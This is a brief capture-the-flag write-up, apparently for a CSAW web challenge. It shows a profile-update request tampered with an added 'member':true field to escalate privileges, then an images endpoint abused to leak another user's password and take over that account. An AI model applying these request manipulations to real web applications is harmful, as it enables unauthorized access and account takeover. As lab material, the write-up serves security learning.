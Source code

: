 Start by checking the website:
http://web.csaw.io:14180/web/home

This displays a simple registration form. Running it through burp revealed:
```
/identify/register:

{"username":"test1@test.com","password":"test","first_name":"test","last_name":"test"}
```

And trying to update a profile with a new first name showed:
```
/identify/update:
{"username":"test1@test.com","first_name":"test2","last_name":"test"}
```

So, with this, I could force my profile to be a member by manipulating the update request:
```
{"username":"test1@test.com","first_name":"test2","last_name":"test","member":true}
```

With a member profile I got access to a new page with a quiz. Loading it revealed:
http://web.csaw.io:14180/identity/images?user=%22otacon@protonmail.com%22
which leaks usernames and their uploads

The description asked to get information on solidsnake and otacon, so trying:
http://web.csaw.io:14180/identity/images?user=%22solidsnake@protonmail.com%22
reveals 
![](./Images/password.png)

Login in with solidsnake:
![](./Images/flag.png)